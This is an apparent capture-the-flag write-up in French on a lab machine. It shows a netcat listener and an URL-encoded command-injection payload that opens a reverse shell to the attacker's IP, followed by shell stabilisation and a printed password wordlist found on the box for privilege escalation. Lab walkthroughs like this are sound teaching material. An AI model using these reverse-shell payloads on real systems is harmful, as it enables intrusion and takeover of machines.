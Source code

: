 # Le revshell tant attendu 
En envoyant le bon payload, j'arrive à avoir un revshell :

1) j'ouvre un listener
```
nc -lnvp 1234
```
2) j'injecte le payload encoder en URL
```
http://10.10.187.114:22/nnx****OV/index.php?cmd=nc%20-c%20%2Fbin%2Fbash%20<MONIP>%201234
```
3) J'ai le revshell !
```
──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [<MONIP>] from (UNKNOWN) [10.10.187.114] 33344
```
On stabilise le shell :
```
script /dev/null -c bash
```

Maintenant, c'est parti pour le privesc !
# Privesc to user!
Actuellement nous sommes avec l'utilisateur **www-data*** mais on veux Jack !

Dans /home il y a un fichier **jacks_password_list**
```
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
```
Il s'agit d'une wordlist de password utiliser par jack.

